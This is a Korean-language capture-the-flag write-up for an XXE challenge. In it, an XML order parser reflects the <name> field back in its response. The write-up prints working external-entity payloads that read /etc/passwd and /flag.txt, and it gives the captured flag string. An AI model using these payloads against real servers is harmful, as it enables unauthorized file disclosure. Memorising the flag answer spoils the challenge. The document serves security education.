

# 13. XXE

## 문제 설명
XML을 입력받아 파싱한 뒤 `<name>` 값을 응답으로 되돌려주는 주문 파서.
반사되는 `<name>` 자리에 엔티티를 넣어 파일 내용을 그대로 출력시키는 in-band 방식이다.

## 분석
XML의 외부 엔티티(`SYSTEM`)를 정의하면 서버의 파일을 읽어 문서 내에서 치환할 수 있다.
`/etc/passwd`로 테스트하여 XXE 성립을 확인했다.

```xml
<?xml version="1.0"?>
<!DOCTYPE order [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<order><name>&xxe;</name></order>
```
응답에 `root:x:0:0:...`가 출력되어 임의 파일 읽기가 가능함을 확인했다.

## 익스플로잇

### 페이로드 (flag 파일 읽기)
```xml
<?xml version="1.0"?>
<!DOCTYPE order [
  <!ENTITY xxe SYSTEM "file:///flag.txt">
]>
<order><name>&xxe;</name></order>
```
`&xxe;`가 `/flag.txt`의 내용으로 치환되어 응답에 flag가 출력된다.
/order



## 플래그
```
flag{32b3ad5150d4d2349d01}
```
